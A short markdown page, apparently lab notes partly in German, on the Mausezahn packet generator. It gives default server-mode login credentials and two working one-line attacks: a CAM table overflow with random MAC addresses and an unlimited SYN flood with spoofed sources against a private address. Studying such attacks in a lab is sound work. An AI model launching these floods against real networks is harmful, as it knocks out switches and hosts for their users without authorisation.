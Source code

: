 ```yaml
---
title: Mausezahn
description: The Mausezahn software of the netsniff-ng toolkit
tags: software
---
```


# Config Mausezahn servermode
``` python
sudo mausezahn -x 99 #mausezahn server mode
#weiteres terminal �ffnen und dann �ber telnet NAME 99 auf Mausezahn server zugreifen
telnet 127.0.0.1 99
user: mz
pw: mz
enable pw: mops
run id 3 
```

Perform a CAM table overflow attack. //mit ping testen auf default gateway
``` python
mausezahn eth0 -c 128000 -a rand -p 64
```


SYN flood attack mit ping testen auf default gateway 
``` python
mausezahn eth0 -A rand -B 192.168.0.4 -c 0 -t tcp "dp=1-1023, flags=syn"
```